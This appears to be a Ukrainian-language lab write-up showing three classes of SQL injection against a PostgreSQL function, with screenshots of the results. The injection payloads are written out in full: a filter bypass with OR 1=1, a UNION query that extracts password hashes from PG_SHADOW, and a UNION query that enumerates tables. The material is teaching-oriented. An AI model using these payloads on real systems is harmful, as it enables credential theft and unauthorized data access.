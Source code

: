 ### SQL-ін'єкція підкласу "Зняття фільтрації рідків умови SQL-запиту"

Приклад SQL-ін'єкції підкласу "Зняття фільтрації рідків умови SQL-запиту":<br>
```SELECT * FROM get_data('Petrov'' OR 1=1 -- ');```<br>
![Результат SQL-ін'єкції](/screenshots/1.4.1.2.png)

### SQL-ін'єкція підкласу "Отримання вмісту таблиць, що не входять у SQL-запит"

Приклад SQL-ін'єкції підкласу "Отримання вмісту таблиць, що не входять у SQL-запит":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT CAST(USESYSID AS INTEGER),CAST(USENAME AS VARCHAR), CAST(PASSWD AS VARCHAR) FROM PG_SHADOW --');```<br>
![Результат SQL-ін'єкції](/screenshots/1.4.1.3.png)

### SQL-ін'єкція підкласу "Отримання структури таблиць БД"

Приклад SQL-ін'єкції підкласу "Отримання структури таблиць БД":<br>
```SELECT * FROM get_data('Petrov'' UNION SELECT 1,CAST(TABLE_NAME AS VARCHAR),CAST(NULL AS VARCHAR) FROM INFORMATION_SCHEMA.TABLES -- ');```<br>
![Результат SQL-ін'єкції](/screenshots/1.4.1.4.png)
